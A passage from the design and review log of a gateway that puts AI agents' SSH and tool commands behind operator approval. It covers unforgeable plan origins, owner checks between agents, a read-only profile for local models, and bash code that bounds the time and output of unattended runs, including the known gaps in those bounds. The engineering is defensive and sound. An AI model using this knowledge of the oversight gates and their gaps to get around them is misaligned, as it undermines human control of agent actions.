     is `agent`.
   * `create_plan()` takes `origin` as a keyword. The MCP `plan_propose`
     path and every HTTP route hard-code `agent`. No request field, note or
     item field can set or change it.
   * Allowed values are a fixed set: `agent`, `probe`, and later `recipe`
     and `check`.
   * Test: a proposal that sends `origin: 'probe'` in any field is stored as
     `agent`.
2. **A server plan is closed.**
   * No agent-facing path may add, edit or re-enable an item of a plan whose
     origin isn't `agent`. The operator may still remove items.
   * The card shows the origin (for example "probe: disk_usage") and lists
     every item.
   * Items name a specific host, never `*`.
3. **The claim checks the session's owner.**
   * In `approval` mode a covered claim also requires the session's owner to
     be the verified agent on the request. This is F10's M2 rule; the SSH
     `claim_plan_item` does not have it today.
   * The agent identity is the one the signed prefix carries, which the
     agent MAC already covers.
   * Test: agent B, in `approval` mode, sending A's session id with a
     matching command does not claim A's probe item.
4. **Nothing else moves.**
   * Freeze and zero-trust still skip plan coverage.
   * The encoded-payload block and the blocklists still come first.
   * The session override and the read lane stay off under `force_jit`.
   * The change is one branch in `receive_request`: `force_jit` permits a
     plan claim only when the claimed item's plan origin is in
     `SERVER_PLAN_ORIGINS`. `normal` mode is unchanged.
   * The approved request records `session-plan:<plan>:<item>` and the
     origin in its reason, so the audit shows why no card appeared.
5. **It is tested with the real `receive_request`.** The cases are the ones
   AG1 lists, plus conditions 1 and 3.
6. **`check` (F22) is not decided here.** This rule covers a plan item that
   the agent's own call claims while the operator's approval is fresh. An
   item that runs later with no agent call and no human present (F22's
   check) is an *unattended* run. It goes through F19's
   `approve_unattended()`, with the limit and the capability, and F22's
   design review decides whether it may use this origin at all. `recipe`
   (F16 V5) also still claims by request id, as agreed for F16.

DeepSeek implements this. Both reviewers read the diff.

### Code round 2 — AG1 (own commit) and AG2–AG7

**AG1 — `1bf7233`, on its own, because security decides it.** The security
reviewer's six conditions are in:
* `session_plans.origin` is `NOT NULL DEFAULT 'agent'` and only
  `create_plan(origin=...)` writes it, from `agent|probe|recipe`. The MCP and
  HTTP proposal paths pass no origin, so a field named `origin` in an item or a
  request is stored as `agent` (test).
* A server plan must name a specific host — an item with `*` or `''` is
  refused as `invalid_host` (condition 2).
* `receive_request` permits a claim under `force_jit` only for `origin='probe'`
  plans; an agent plan still never covers a command in `approval` mode, and
  `normal` mode is unchanged. The claim also requires the session's owner to be
  the verified agent (F10's M2 rule), and the approved row's reason is
  `session-plan:<plan>:<item>:probe`, so the audit shows why no card appeared.
* The plan card shows a small `probe` origin badge (`_plan_payload` carries
  `origin`).
* Tests drive the **real** `receive_request`: a probe plan covers each command
  once (and only once), an agent plan does not, another agent cannot spend the
  item, no request field can set the origin, and an any-host server plan is
  refused.

**AG2–AG7 — `bd71c1f`.**
* **AG2:** `probe_result` checks the plan's session **and its owner** before
  returning a stored digest; another session gets `probe_not_found`.
* **AG3:** `dns_check` calls F14's `_call_tool` (exists, enabled, read policy,
  v6 handler); a missing tool is reported in the digest as an error.
* **AG4:** `docker inspect --format '{{.State.Status}} {{.State.Running}}
  {{.RestartCount}} {{.State.StartedAt}}'`, `docker ps -a --filter name=^NAME$`
  and `pct status`/`pct config` — no `Config.Env`, no every-container listing.
* **AG5:** `recent_changes` is a SQL query by host over 24 h, keeping rows F1
  says have a write step, scrubbed.
* **AG6:** `journalctl … -p warning`, `last` from the line's timestamp, and a
  hex-looking word only normalises with `0x` or a digit.
* **AG7:** filesystems sort by use %, log dirs by size, ports by port before
  the cap drops anything.

`bash scripts/verify.sh`: `2698 passed, 22 skipped, 7 warnings in 537.81s (0:08:57)`.

**Code round 2 (feature reviewer, 2026-11-11, at `153cf74`): approved; merging.**

AG1 meets the security reviewer's six conditions (`eca8982`):
* the origin is set by server code only, and an `agent` default is what a
  forged value becomes;
* a server plan names one specific host;
* the claim narrows to `origin='probe'` under `force_jit` and checks the
  session's owner;
* the reason and the audit row carry the origin;
* the card shows a badge;
* the tests drive the real `receive_request`.

AG2–AG7 are in:
* the stored digest is behind the session and owner check;
* `dns_check` goes through `_call_tool`;
* the `inspect` is formatted, with no `Config.Env`;
* `recent_changes` is a SQL query using F1 writes;
* the journal uses `-p warning` and the line's own timestamp;
* the cap sorts first.

* **AI1 (should, next F15 touch): the `docker ps` format is unquoted.**
  `--format {{.Names}}\t{{.Status}}` reaches the shell bare, so `\t`
  becomes `t` (`webtUp 3 hours`). Quote it as the `inspect` format is
  quoted, and test the exact command string.

**AI1 — `fix/f15-docker-format`, 2026-11-11. Fixed, with the mechanism
recorded exactly.** The `ps` template is now single-quoted like the
`inspect` one, and the tab is written as an escape the *shell* must not
touch: `--format '{{.Names}}\t{{.Status}}'` (in the Python source
`"\t"`, so the command text holds a backslash and a `t`).

What the old string did, checked rather than guessed: in the Python source
`'…\t…'` is a **tab**, so the unquoted template was a word separator, not
a backslash escape. The command split into
`['docker', 'ps', '-a', '--filter', 'name=^db$', '--format', '{{.Names}}', '{{.Status}}']` —
docker got `--format {{.Names}}` and `{{.Status}}` as a stray argument. The
reviewer's `webtUp 3 hours` is the same bug seen from the other side; the
fix is the same either way.

Tests: `test_the_two_docker_commands_are_exactly_these_strings` pins both
commands byte for byte (and checks `shlex.split` gives docker one
`--format` argument); `test_the_ps_format_reaches_a_shell_unchanged` runs
the real command through `/bin/sh` with a stub `docker` that reports the
argument it received, so a shell change that splits or unescapes it fails
the test. 58 tests in the F15 file.

`bash scripts/verify.sh`: `2767 passed, 22 skipped, 8 warnings in 573.07s (0:09:33)`.

---

## Chunk F16 — Recipes · slug `recipes` · dashboard + MCP · **design first + security reviewer sign-off**

### Goal

A reviewed, parameterised procedure (for example "add an internal FQDN": a
Pi-hole record, an NPM proxy host, then check with `dig` and `curl`) that
any agent, including a small local one, can run with one approval and
almost no inference.

### Design questions the design note must answer

1. **Shape.** Named, versioned procedures. A step is either an Eshu tool call
   (an integration tool with arguments) or an SSH command template on a
   named host. Each step has a check, plus an optional undo step. How are
   steps, checks and undo represented, and how is a check's pass or fail
   decided without free-form parsing?
2. **Typed parameters only.** Types are a closed set: `hostname`, `ipv4`,
   `port`, `fqdn`, `slug`, `int` and `enum`, each with a regex and
   normalisation. Values are substituted only into marked slots. In SSH
   templates the slots are `shlex.quote`d; in tool calls they are JSON
   values. Free text never goes into a shell. Show the substitution code.
3. **Approval model.** The operator approves a recipe **version** once,
   pinned to its content hash (any edit is a new, unapproved version). Each
   **run** then needs one approval showing the filled-in steps (reusing F3,
   so a run is a plan). A recipe whose every step passes `read_policy` may run
   without a run approval when F4 is `on` for those hosts. Is that right, or
   should read-only recipes still need approval in the first version?
4. **Authoring.** Who can create recipes? Hermes drafts them through
   `recipe_propose` (often from an F13 runbook), and only the operator
   approves. How is a draft shown for review, with each step rendered through
   the F2 breakdown?
5. **Failure.** When a step's check fails, does the recipe stop, run the undo
   steps in reverse, or ask? What is recorded (F5 results and audit)?
6. **Blast radius.** Limits on host count per run and on steps per recipe,
   plus a list of integration tools a recipe may never call (deletes,
   restarts of core services).

### Example to specify end to end

`add_internal_fqdn(fqdn, target_ip, port)` →
1. Pi-hole: add a local DNS record.
2. NPM: create the proxy host.
3. Check: `getent hosts fqdn` on a named gateway.
4. Check: an HTTP status via the generic read tool.

Undo: delete the NPM host, then delete the Pi-hole record.

### Implementer notes

_(design note goes here first)_

### Reviewer notes

_(reviewer)_

---

## Chunk F17 — Local-agent profile · slug `local-agent` · dashboard + docs

### Goal

A local model in LM Studio connects to Eshu over MCP in minutes, sees a small
toolset it can use well, and hands over to Hermes cleanly when a job is beyond
it.

### Design

* **Preset agent policy** `local-agent`, applied when the operator creates its
  token:
  * `tools_mode` allowlist: `session_begin`, `session_summary`,
    `session_conclude`, `whereis`, the F15 probes, `find_runbooks`,
    `get_runbook`, `recipe_list`, `recipe_run`, `ssh_exec` (read-only mode),
    `escalate`.
  * Generic reads are GET/HEAD only (Chunk H).
  * Every write needs approval.
* **Short descriptions.** A "compact" description variant per tool (≤ 160
  chars). The MCP server serves it when the agent's policy sets
  `compact_descriptions: true`.
* **`escalate(summary, session_id)`** notifies the operator and attaches the
  F6 session digest, plus a "for Hermes" hand-off record that Hermes can
  read with `get_escalation(id)`. It is always allowed.
* **Setup guide** `docs/LOCAL_AGENT.md`:
  * LM Studio's `mcp.json` entry (URL plus `Authorization: Bearer` header);
  * recommended models and context size for a 16 GB GPU (stated as
    guidance, not tested claims);
  * a system prompt template ("look it up with `whereis`, diagnose with
    probes, follow runbooks, run recipes, escalate when unsure");
  * what the agent cannot do.
* **Eval script** `scripts/eval_local_agent.py`: a fixed set of 10 synthetic
  support tasks run against a sandbox dashboard. It checks which tools the
  model chose, against the expected ones, so the toolset can be tuned. It is
  run manually and never in CI.

### Tests to add

* The preset creates the allowlist above; `ssh_exec` is read-only for this
  agent.
* Compact descriptions are served only with the flag set.
* `escalate` notifies the operator and stores the hand-off; `get_escalation`
  is scoped to the operator and the agents allowed to read it.

### Dependencies

F12–F16, F13.

### Implementer notes

_(implementer)_

### Reviewer notes

**Pre-implementation notes (2026-11-09).** Close these points in the
implementation; each needs a test. F17 starts after F15. F16's recipe tools
are optional, so the preset must work without them.

* **A1 (must): define "read-only `ssh_exec`".** The command is accepted only
  if F4's `eligible()` would pass it, and anything else is **refused**
  (`read_only_agent`), not queued for approval. A small model should not be
  able to flood the operator with write requests. Enforce it on the server
  from the agent's policy (`ssh_mode: 'read-only'`), never from the tool
  description.
* **A2 (must): preset tools that exist.** Build the allowlist by filtering the
  preset list against the tool registry. `recipe_*` and the probes may not be
  there yet. Store the preset version on the agent row, so a later preset
  change never silently widens an existing agent.
* **A3 (must): `escalate` is agent text.** Cap the summary (2 KiB), rate-limit
  it (per agent, a few per hour), and render it escaped in the notification
  and the UI, with no links made clickable. "Always allowed" should mean
  "not gated", not "not limited".
* **A4 (must): who may read an escalation.** `get_escalation` is limited to
  the operator and the agents the **operator** names in settings (for
  example `escalation_readers: ["hermes"]`), never a list the escalating
  agent supplies. Test that another agent gets `not_found`, not
  `forbidden`.
* **A5 (should): compact descriptions keep the safety words.** Every
  allowlisted tool has a compact variant of at most 160 characters. A test
  checks that a tool whose full description says "needs approval" or
  "read-only" still says so in the compact one.
* **A6 (should): the eval script never touches a real dashboard.** It refuses
  a non-loopback base URL and creates its own temp DB, with synthetic hosts
  only (`192.0.2.0/24`, `*.example.test`).

---

## Chunk F19 — Time and output limits for unattended runs · slug `unattended-limits` · gateway + dashboard · **design first + security reviewer sign-off**

### Why

The F4 security sign-off listed this as a residual risk. The read-only lane's
parser is the only bound on run time and output: `df` on a stale mount, or
`docker` with a hung daemon, can hang, and the gateway has no execution timeout
or output cap of its own. The same applies to F15 probes and read-only F16
recipes. Any command that runs with no human watching should have a hard
bound at the gateway.

### Design (to confirm in the design note)

* The dashboard's `request_status` / ticket response for rows approved with
  no human (`reason` = `read-lane`, later probe or recipe runs) adds
  `run_limit: {seconds, bytes}`. Defaults are 60 s and 1 MiB; settings range
  over 5–300 s and 64 KiB–8 MiB.
* The gateway validates both as digits within the range. It wraps the run
  as `timeout --kill-after=5 "$secs" bash -c "$cmd"` and caps the stream
  after `sanitize` with `head -c "$bytes"`, printing
  `[ESHU limit: output cut at N bytes]` or `[ESHU limit: stopped after N s]`.
  It records the limit hit in F5's result (`limit: time|bytes`).
* Rows approved by a human are unchanged.
* The design note must show the exact bash and how it interacts with
  F5's `tee`/FIFO capture, `pipefail` and the `[ESHU exit=N]` sentinel. It
  must also cover old gateways: they ignore the field, and the dashboard
  refuses to auto-run on a gateway too old to enforce limits. That last rule
  is decided per gateway version.

### Tests to add (outline)

Gateway sandbox: a command that sleeps past the limit is stopped at N s
(rc 124); output past N bytes is cut, with the marker; human-approved runs
have no limit; a bad `run_limit` value means no auto-run. Dashboard: the limit
is sent only for unattended rows; old gateway versions are refused for `on`.

### Implementer notes

**Status: design note only — no code on this branch.** F19 is design first
and needs the security reviewer's sign-off before any code. It is also one of
the preconditions for unlocking F4's `on` mode, so it is the next gateway
change after F12.

#### 1. What is bounded, and what is not

A **run limit** exists only for a row the dashboard approved **without a
human**: today that is the read lane (`reason = read-lane`), later F15 probes
and read-only F16 recipes. The row's `reason` is the switch, and it is set by
the dashboard, never by the gateway.

* A human-approved run (JIT, plan, session override, host override, window,
  allowlist) keeps today's behaviour: no timeout, no cap. A human saw the
  command and can watch it. Changing that would be a different feature with
  its own review.
* A run limit is **advisory on the dashboard and authoritative on the
  gateway**: the gateway refuses a limit it cannot parse, ignores one it did
  not get, and never runs unbounded when it was told to bound.
* A limit hit is a *completed* run, not a refusal: `status: ran`,
  `exit_code: 124` for time (or the command's own code for a byte cut), and
  a marker line. The ticket is burned either way; a bounded run cannot be
  retried by replaying the ticket.

#### 2. Where the limit travels

The limit is a JSON field next to the payload, **not** part of the ticket
line. The ticket line is `v2|ts|agent|session|cmd` and is consumed by
gateways that may predate F19; adding a field there would either break them
or need a `v3` tag for no benefit. Three responses carry it, all on the
dashboard side:

* `POST /api/request` → `{"status":"ok","request_id":…,"run_limit":{…}}`
  when the row it just created is unattended. This is the path the read lane
  uses (the gateway gets `approved` immediately and runs without polling).
* `GET /api/request_status/{id}` → `run_limit` while `status` is `approved`,
  so the polling path and a late claim both see it.
* `GET /api/ticket/{id}` → the same field beside `ticket`, for a gateway that
  claims the ticket in one call.

A locked-box ticket claimed from the poller has no limit beside it, by
construction: those rows were approved by a human (or by a plan), and §1 says
they keep today's behaviour.

Shape and ranges (defaults 60 s / 1 MiB):

```
run_limit: {"seconds": 60, "bytes": 1048576}
seconds  5..300       bytes  65536..8388608
```

The values live in a `meta` key (`run_limit`) so the operator can set them
without a deploy, and a settings endpoint (`GET`/`PUT /api/settings/run-limit`,
session auth) validates the range. A missing key means the defaults; a
corrupt key also means the defaults (a broken setting must not remove the
bound). The dashboard never sends a value outside the range; the gateway
still checks.

#### 3. The gateway: parse, wrap, cap

The limit arrives as a JSON body the gateway already parses for
`request_id`. Two variables hold it, and `RUN_LIMIT_*` empty means "no limit"
(human-approved):

```bash
# F19: run limits for a row the dashboard approved with no human watching.
# Empty means "no limit" (a human approved this). Anything unusable also
# means no auto-run: never a partially applied bound.
RUN_LIMIT_SECS=""
RUN_LIMIT_BYTES=""

parse_run_limit() {   # $1 = dashboard JSON body
  local secs="" bytes=""
  secs=$(printf '%s' "$1" | python3 -c '
import json, sys
d = (json.load(sys.stdin) or {}).get("run_limit") or {}
sys.stdout.write("%d %d" % (int(d.get("seconds") or 0), int(d.get("bytes") or 0)))
' 2>/dev/null || echo "0 0")
  set -- $secs
  case "${1:-}" in ''|*[!0-9]*) return 1 ;; esac
  case "${2:-}" in ''|*[!0-9]*) return 1 ;; esac
  if [ "$1" -lt 5 ] || [ "$1" -gt 300 ] || [ "$2" -lt 65536 ] || [ "$2" -gt 8388608 ]; then
    return 1
  fi
  RUN_LIMIT_SECS="$1"
  RUN_LIMIT_BYTES="$2"
  return 0
}
```

Called right after the `/api/request` response is parsed; a `run_limit` that
is present but unusable **refuses the call** (`[LOCKED] Invalid run_limit …`)
instead of running unbounded. A 200 response without the field leaves both
variables empty (human-approved path).

The run itself is wrapped inside `run_sanitized`, so every run path (read
lane, window, lockbox, JIT) is bounded by the same code and a future path
cannot forget it:

```bash
run_sanitized() {
  local rc=0 ... time_limited="0" byte_limited="0"
  local -a run_argv=("$@")
  if [ -n "$RUN_LIMIT_SECS" ]; then
    # -k (not --kill-after) is what both GNU and BusyBox timeout understand;
    # the extra 5 s only decides how long a stuck process gets to die.
    run_argv=(timeout -k 5 "$RUN_LIMIT_SECS" "${run_argv[@]}")
    time_limited="1"
  fi
  ...
  if [ -n "$RUN_LIMIT_BYTES" ]; then
    # F19: cap the stream AFTER sanitize (secrets are still redacted) and
    # BEFORE the FIFO, so F5 stores exactly the bytes the agent saw. The
    # pipeline runs under `pipefail`, so read the command's own status from
    # PIPESTATUS[0]; the byte cut is a separate flag, not a status.
    { "${run_argv[@]}" 2>&1 | sanitize | head -c $((RUN_LIMIT_BYTES + 1)) \
        | tee "$ESHU_OUT_FIFO"; } >/dev/null 2>&1
    rc=${PIPESTATUS[0]}
    LIMIT_HIT=""
    if [ -s "$ESHU_OUT_CAP" ] && [ "$(stat -c '%s' "$ESHU_OUT_CAP")" -gt "$RUN_LIMIT_BYTES" ]; then
      byte_limited="1"
      LIMIT_HIT="bytes"
      # Drop the probe byte so the cap is exact.
      truncate -s "$RUN_LIMIT_BYTES" "$ESHU_OUT_CAP"
    fi
  else
    ...today's branches, unchanged...
  fi
  if [ "$time_limited" = "1" ] && [ "$rc" -eq 124 ]; then
    LIMIT_HIT="time"
    say "   [ESHU limit: stopped after ${RUN_LIMIT_SECS} s]"
  fi
  if [ "$byte_limited" = "1" ]; then
    say "   [ESHU limit: output cut at ${RUN_LIMIT_BYTES} bytes]"
  fi
  ...
}
```

Details that matter, and why:

* **`head -c $((bytes + 1))` and a probe byte.** With exactly `bytes`, a stream
  that happens to end at the cap is indistinguishable from one that was cut.
  One extra byte distinguishes them; it is dropped before anything is stored
  or shown, so the cap the operator set is the cap that is kept.
* **`truncate -s`** (coreutils) may be missing on a minimal host. The
  fallback for that case is `head -c "$RUN_LIMIT_BYTES" "$ESHU_OUT_CAP" >
  "$ESHU_OUT_CAP.trim" && mv -f …`; the design note records the fallback so
  the implementer does not have to invent one. The marker and the F5 row are
  identical either way.
* **`pipefail` and `PIPESTATUS[0]`.** The existing code reads `$?` after a
  `||`, which is the *pipeline's* status under `pipefail`; for a capped run
  that would report `head`'s or `sed`'s SIGPIPE (141) as the command's exit
  code. Reading `PIPESTATUS[0]` gives the command's real status, so
  `[ESHU exit=N]` and the envelope's `exit_code` keep meaning "what the
  command returned". The SIGPIPE the writer gets when `head` closes is
  expected and is not reported.
* **The F5 capture still works.** The FIFO reader is unchanged; it now
  receives at most `bytes + 1` bytes, so `tail -c 16385` keeps the whole head.
  `post_exec_result` stores that, and a byte cut marks the row
  `truncated: true` as it does today. The new field is `limit: time|bytes`
  (empty when no limit fired), which is a new additive column
  (`request_results.limit TEXT DEFAULT ''`) and an optional body field on
  `/api/exec-result`.
* **`[ESHU exit=N]` in direct mode.** For a time limit N is `124` (GNU and
  BusyBox timeout both use it), so an SSH agent sees
  `[ESHU exit=124]` plus `[ESHU limit: stopped after 60 s]`. For a byte cut
  the sentinel is unchanged (typically `[ESHU exit=0]`) and the marker is the
  only sign, which is correct: the command was not stopped.
* **MCP mode.** The markers go through `say`, so they land in the envelope's
  `messages`; the exit code is the envelope's `exit_code`; a byte cut sets
  `truncated: true` exactly as a 64 KiB tail would. Nothing new is needed in
  the envelope format.
* **The timeout only bounds the run, not the whole call.** `timeout` kills
  the direct child (`bash -c`), and `-k 5` forces it 5 s later if it ignores
  SIGTERM. A command that backgrounds a child can still outlive it; that is
  the same statement F12 §4 makes about killing the local `ssh`, and the
  reason the dashboard's `timeout` and this limit are separate bounds.

#### 4. Old gateways and old dashboards

* **Old gateway, new dashboard.** The gateway ignores `run_limit` entirely,
  so nothing is bounded there. The dashboard therefore refuses to *auto-run*
  an unattended row on a gateway that has not reported the capability
  `run_limits: "v1"` (a new `gateways` column, sent by the installer in its
  existing `/api/register`, exactly like F12's
  `ssh_agent_format`/`ssh_ticket_format`). Instead of approving, the row is
  created `pending` with `reason = "read-lane-no-limits"` and an audit event
  `read_lane_no_limits`; the human sees it in the queue with that reason.
  With F4's `on` hard-locked, this is the second gate that must be green
  before `on` is unlocked at all.
* **New gateway, old dashboard.** No `run_limit` in the response → no limit →
  today's behaviour. The capability is reported but unused.
* **The capability is reported, not inferred from the version string.**
  Version strings lie after a dev update and a rollback; a reported
  capability is what the installer that wrote the script knows. It is stored
  on the gateway row and shown in the gateway card.
* **Rollout order.** F19 ships with every gateway on `off` (no lane), the
  capability starts empty, and the dashboard refuses `on` until every gateway
  the operator wants in the lane reports `v1`. That is the F4 § 8 gate, and
  it keeps "old gateway" a state that cannot auto-run.

#### 5. What is deliberately out of scope

* No per-command limits, no priorities, no queue: one fleet-wide pair of
  numbers, overridable only by the operator's settings.
* No output limit for a human-approved run: the human can interrupt it, and
  F5's 16 KiB tail already bounds what is *stored*.
* No `nice`/`cpulimit`/cgroup: a wall-clock bound and a byte cap are what the
  residual risk named; CPU accounting is a different feature.
* No change to the 90 s JIT wait, the 60 s `wait: true` poll or F12's
  `timeout` — those bound the *conversation*, not the command.

#### 6. Tests to add (final)

Gateway sandbox (`tests/test_f19_limits.py`), with the existing harness:

* a `sleep 10` command with `seconds: 5` is stopped, `exit_code` 124, the
  marker in `messages` (MCP) and `[ESHU exit=124]` + marker (direct), and the
  F5 row has `limit: time`;
* a command printing 2 MiB with `bytes: 65536` keeps exactly 65536 bytes,
  `truncated` is true, the marker says `output cut at 65536 bytes`, and the F5
  row has `limit: bytes`;
* a stream that ends exactly at the cap is **not** marked cut (the probe
  byte);
* a human-approved run (no `run_limit`) is unbounded: `sleep 6` finishes and
  no marker appears;
* `run_limit` present but out of range / non-numeric / negative → the call is
  refused and nothing runs;
* `run_limit` on a 200 response with `status: pending` is ignored (no run);
* the F5 capture path is untouched for an unlimited run (regex-allowlist and
  ticket paths).

Dashboard (`tests/test_f19_limits.py`):

* `run_limit` is added to `/api/request` only for `reason = read-lane`
  (pending rows and human-approved rows get none);
* `/api/request_status/{id}` and `/api/ticket/{id}` carry it for an
  unattended approved row;
* defaults are 60/1048576; a corrupt meta value falls back to the defaults;
  the settings endpoint rejects 4 s, 301 s, 65535 bytes and 8 MiB + 1;
* `receive_request` refuses to auto-approve a read-lane row on a gateway
  without `run_limits: v1` (row pending, reason `read-lane-no-limits`, audit
  row written);
* with the capability present, the row is approved as today;
* `/api/exec-result` stores `limit` and rejects an unknown value.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 430.08s (0:07:10)` (docs-only; this branch is `feature-roadmap` + the note, so F12's new tests are not in it).

### Round 2 — design after review round 1 (D1–D4, S1, L1–L8)

This section is the design of record where it differs from §1–§6 above; the
parts it does not repeat still stand. It folds the feature review (D1–D4, S1)
and the security review (L1–L8) together, as the reviewers asked.

#### 1. Scope: bounded by default (L1)

The dashboard sends a `run_limit` for **every row it approves without a human
approving that exact command** — not only `read-lane`. A new auto-approval
path must go through one helper (`approve_unattended()` in `main.py`), which
sets `requests.unattended = 1`; a test walks the auto-approval reasons and
fails if an unattended row ends up without a limit.

Named exemptions (unchanged behaviour, accepted risk): a JIT click, an F3 plan
item, a session override and a host override. Each is a human decision about
this run (or a run the operator deliberately allowed), and they may
legitimately take a long time. The gateway-local paths (exact and regex
allowlists, approved windows) never receive a limit and are unchanged.

#### 2. Travel, stickiness and the capability (L2, L7)

The field still travels in three responses, but two rules change:

* **L7: the capability is per request, not only per gateway.** The gateway
  sends `"run_limits":"v1"` in the `/api/request` body, and the dashboard
  auto-approves an unattended row only when that request carries it. A
  self-update or a rollback can change the script without re-registering, so
  the stored `gateways.run_limits` column is for the card only — never the
  decision.
* **L2: once set, it stays.** `parse_run_limit` returns three results —
  absent, valid, invalid — not 1/0. The first valid limit seen applies; a
  later response that omits the field does not clear it; two different limits
  combine with `min()` per field. The round-1 sketch split `"60 1048576"`
  with `set -- $secs`, which never splits because the script sets `IFS` to
  newline and tab; the triple is tab-separated and read with `read -r`.

```bash
RUN_LIMIT_SECS=""; RUN_LIMIT_BYTES=""; RUN_LIMIT_STATE="absent"   # absent|valid|invalid

parse_run_limit() {   # $1 = JSON body. 0 = ok (absent or valid), 1 = invalid
  local kind="" secs="" bytes="" triple
  triple=$(printf '%s' "$1" | python3 -c '
import json, sys
doc = json.load(sys.stdin) or {}
rl = doc.get("run_limit")
if rl is None:
    print("absent")
elif not isinstance(rl, dict):
    print("invalid")
else:
    s, b = rl.get("seconds"), rl.get("bytes")
    if isinstance(s, bool) or isinstance(b, bool) or not isinstance(s, int) or not isinstance(b, int):
        print("invalid")
    else:
        print("valid\t%d\t%d" % (s, b))
' 2>/dev/null) || triple="invalid"
  IFS=$'\t' read -r kind secs bytes <<< "$triple"
  case "$kind" in
    absent)
      # L2: a later response without the field does not clear an earlier limit.
      return 0 ;;
    valid)
      case "${secs}${bytes}" in ''|*[!0-9]*) RUN_LIMIT_STATE="invalid"; return 1 ;; esac
      if [ "$secs" -lt 5 ] || [ "$secs" -gt 300 ] || \
         [ "$bytes" -lt 65536 ] || [ "$bytes" -gt 8388608 ]; then
        RUN_LIMIT_STATE="invalid"; return 1
      fi
      if [ "$RUN_LIMIT_STATE" = "valid" ]; then   # L2: the smaller one wins
        [ "$secs" -lt "$RUN_LIMIT_SECS" ] && RUN_LIMIT_SECS="$secs"
        [ "$bytes" -lt "$RUN_LIMIT_BYTES" ] && RUN_LIMIT_BYTES="$bytes"
      else
        RUN_LIMIT_SECS="$secs"; RUN_LIMIT_BYTES="$bytes"
      fi
      RUN_LIMIT_STATE="valid"; return 0 ;;
    *) RUN_LIMIT_STATE="invalid"; return 1 ;;
  esac
}
```

A response with the field absent leaves the state as it was; a present but
unusable value refuses the call (`[LOCKED] Invalid run_limit …`), because a
half-applied bound is worse than no auto-run.

#### 3. The gateway pipeline (D1, D2, D3, L4, L5, S1, L6)

* **D1/L4: only MCP mode discards stdout.** The round-1 sketch sent the whole
  group to `/dev/null`, so a direct-SSH agent would have seen nothing. The
  redirect belongs on the `tee` of the MCP branch only.
* **D3/L4: survive `set -e` and keep `PIPESTATUS`.** The pipeline runs with
  errexit off, `_ps=("${PIPESTATUS[@]}")` is taken in the next statement, and
  `rc=${_ps[0]}`. A `|| true` would clear `PIPESTATUS` and turn a 124 into 0.
* **L5: cap the raw stream before `sanitize` too.** `sanitize` is `sed`, which
  holds one line until it sees a newline; a newline-free pseudo-file would
  grow its memory without limit. A `head -c $((bytes + 1))` sits before
  `sanitize` as well as after it. **Decision on cut detection:** the marker
  and `limit: bytes` are decided from the **visible** (post-`sanitize`)
  stream, which is what the agent saw; the raw cap is a memory bound only and
  is never written to disk unsanitized. Redaction can shorten a raw-cut
  stream below the cap, in which case the agent did not see a cut and no
  marker is shown — the bytes are still bounded, and this is recorded as an
  accepted imprecision rather than writing secrets to a probe file.
* **L6/S1: the time bound must cover the whole call.** GNU `timeout` (without
  `--foreground`) signals the command's process group, so ordinary background
  children die with it; only a child that calls `setsid` escapes. BusyBox
  `timeout` signals only the direct child, so a grandchild holding the pipe
  could hold the call — and its ticket — past the limit. **Decision:** GNU
  `timeout` is part of the capability. The gateway reports
  `run_limits: v1` only when `timeout --version` names GNU coreutils, and it
  refuses a `run_limit` it receives without it (never a partial bound). The
  BusyBox stub test asserts the refusal, not a best-effort run.
* **D2 and the exit code.** A byte cut normally kills the writer with
  SIGPIPE, so `_ps[0]` is `141`, not 0; report it. `limit: bytes` and the
  marker say the output was cut, so the agent does not read 141 as the
  command's own choice. `limit: time` is set only when `rc == 124` **and**
  the elapsed time is at least the limit (a command may exit 124 by itself).
  The `[ESHU exit=N]` sentinel and the envelope's `exit_code` keep the real
  value.

```bash
cap_raw()     { if [ -n "$RUN_LIMIT_BYTES" ]; then head -c $((RUN_LIMIT_BYTES + 1)); else cat; fi; }
cap_visible() { if [ -n "$RUN_LIMIT_BYTES" ]; then head -c $((RUN_LIMIT_BYTES + 1)); else cat; fi; }

run_sanitized() {
  local rc=0 ... run_argv=("$@")
  if [ -n "$RUN_LIMIT_SECS" ]; then
    # -k, not --kill-after: both timeouts understand it. GNU signals the group.
    run_argv=(timeout -k 5 "$RUN_LIMIT_SECS" "${run_argv[@]}")
  fi
  set +e
  if [ -n "$ESHU_OUT_FIFO" ] && [ -p "$ESHU_OUT_FIFO" ]; then
    if [ "$ESHU_MCP" = "1" ]; then
      "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
        | tee "$ESHU_OUT_FIFO" >/dev/null
    else                                  # D1: the direct agent still sees it
      "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible \
        | tee "$ESHU_OUT_FIFO"
    fi
    _ps=("${PIPESTATUS[@]}")
    wait "$ESHU_TAIL_PID" 2>/dev/null || true
  else
    "${run_argv[@]}" 2>&1 | cap_raw | sanitize | cap_visible
    _ps=("${PIPESTATUS[@]}")
  fi
  set -e
  rc=${_ps[0]}                            # the command's (or timeout's) status
}
```

The probe byte (`bytes + 1`) is how "cut" is told from "ended exactly at the
cap": the visible cap writes one extra byte into the F5 capture, which is
then checked with `stat` and trimmed to `bytes` before it is stored. The agent
may therefore see one byte past the cap; the stored output never does. When
capture is `off` the bytes are still bounded and the marker is omitted
(nothing to inspect); MCP always captures to build the envelope, so an MCP
run always reports it.

#### 4. Every route that can run an unattended row carries its limit (D4, L3)

The round-1 note's "a lockbox ticket has no limit by construction" was wrong:
`update_ticket_consumed_by_ip` deposits any `approved` row, read-lane ones
included, and a lockbox claim then runs before any `/api/request` response is
read. Both halves are fixed:

* **The poller never receives an unattended row.**
  `update_ticket_consumed_by_ip` skips `unattended = 1` rows, so they can only
  be claimed through `/api/ticket/{id}`, which carries the limit. A ticket
  line stays `v2|ts|agent|session|cmd`: no new tag, no capability negotiation
  for the line itself.
* **MCP claims it in the same round trip.** When `/api/request` answers 200
  with the row already `approved` (the read lane), the gateway claims
  `/api/ticket/{id}`, reads `run_limit` beside the ticket, and runs bounded
  immediately instead of returning `pending`. That also removes one case of
  F12's M2 race.
* **A direct retry after the 90 s wait** claims through `/api/ticket/{id}`
  too, so it gets the limit from the same response.

Tests, one per route: a lagging poller never sees the row in `/api/poll`; an
MCP read-lane call runs bounded in one round trip; a direct retry gets the
limit from the ticket response. The alternative (a lockbox line carrying the
limit) needs a new tag and is rejected for that reason.

#### 5. The settings endpoint (L8)

`PUT /api/settings/run-limit` uses the ordinary operator session login and
CSRF protection (the `_check_session` + `X-Eshu-CSRF` path every other
settings write uses), records an audit row with the old and the new values,
